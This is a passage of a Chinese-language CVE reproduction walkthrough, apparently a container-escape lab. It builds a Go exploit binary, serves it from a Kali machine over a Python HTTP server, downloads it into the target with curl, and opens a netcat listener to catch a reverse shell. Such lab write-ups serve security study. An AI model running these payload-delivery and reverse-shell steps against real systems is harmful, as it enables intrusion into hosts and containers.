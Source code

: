 ```
由于是go环境，需要安装go的一些编译环境。
yum install epel-release
yum install golang
并编译这个main.go成可执行的文件
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

![image-20241129164955914](CVE漏洞复现/image-20241129164955914.png)	

```
由于centos7启动http服务有点问题，于是使用kali打开http服务器，并把exp恶意文件放到kali上。
python -m http.server 8888
```

![image-20241129165756169](CVE漏洞复现/image-20241129165756169.png)		

```
测试访问这个页面，能否下载文件，能下载说明http服务器部署完毕。
http://192.168.15.128:8888/main
```

```
kali最好端口监听，等待反弹shell.
nc -lvvp 7777
```

![image-20241129170019807](CVE漏洞复现/image-20241129170019807.png)	

```
然后想办法把恶意文件下载到容器中，这里直接在靶机部署的虚拟机直接下载，并传入容器中。
curl -O http://192.168.15.128:8888/main
```

![image-20241129170255018](CVE漏洞复现/image-20241129170255018.png)	

